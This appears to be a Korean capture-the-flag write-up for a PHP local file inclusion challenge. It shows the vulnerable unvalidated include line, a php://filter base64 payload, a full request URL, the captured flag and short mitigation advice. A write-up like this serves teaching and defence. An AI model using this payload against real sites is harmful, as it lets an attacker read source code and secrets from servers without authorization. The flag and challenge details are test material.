


# 10. LFI_01

## 문제 설명
`?p=` 파라미터로 받은 파일을 검증 없이 `include` 하는 사내 문서 뷰어.
```php
else { include $_GET["p"]; }   // LFI
```
flag는 `lfiflag.php` 안에 있지만, 그냥 include하면 PHP로 실행되어 화면에 보이지 않는다.
따라서 파일을 실행하지 않고 소스 코드 자체를 읽어야 한다.

PHP의 `php://filter` 래퍼를 사용하면 대상 파일을 실행하지 않고 내용을
base64로 인코딩해 가져올 수 있다. 인코딩된 상태이므로 PHP 코드가 실행되지 않는다.

## 익스플로잇

### 페이로드
```
?p=php://filter/convert.base64-encode/resource=lfiflag.php
```

### 요청
```
http://edu.arang.kr:9204/?p=php://filter/convert.base64-encode/resource=lfiflag.php
```
화면에 `lfiflag.php`의 소스가 base64 문자열로 출력된다.



### 디코딩
base64 디코딩은 디코딩된 소스 안에 flag가 들어 있다.



## 플래그
```
flag{b601bf1b49981b1f3a02}
```

## 대응 방안
사용자 입력을 파일 경로에 직접 사용하지 않는다. 허용된 파일만 포함하도록
화이트리스트로 검증하고, `php://` 등 래퍼 사용을 차단하며,
`allow_url_include`를 비활성화한다.
